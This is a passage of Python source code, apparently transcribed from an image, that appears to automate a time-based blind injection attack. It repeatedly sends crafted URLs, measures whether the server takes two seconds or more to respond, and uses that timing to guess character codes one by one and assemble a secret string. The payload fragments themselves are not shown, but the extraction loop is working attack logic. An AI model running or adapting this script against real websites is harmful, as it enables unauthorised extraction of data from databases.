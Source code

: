 ```python
		req = requests.get(url = url)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 6
		else:
			num -= 7
		url = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
		req = requests.get(url = url)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 3
		else:
			num -= 3
		url = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
		req = requests.get(url = url)
		time2 = time.time()
		if(time2 - time1 <=2):
			num -= 3
		if((num == 106) or (num == 119)):
			for j in range(num,num+4):
				url = txt1+str(i)+txt3+str(j)+txt4
				time1 = time.time()
				req = requests.get(url = url)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
		else:
			for j in range(num,num+3):
				url = txt1+str(i)+txt3+str(j)+txt4
				time1 = time.time()
				req = requests.get(url = url)
				time2 = time.time()
				if(time2 - time1 >=2):
					code += chr(j)
					print code
					num1 = 0
					num2 = 0
					num3 = 0
	if(num1 == 0 and num2 == 1):
		num = 65
		num += 13
		url = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
		req = requests.get(url = url)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 6
		else:
			num -= 7
		url = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
		req = requests.get(url = url)
		time2 = time.time()
		if(time2 - time1 >=2):
			num += 3
		else:
			num -= 3
```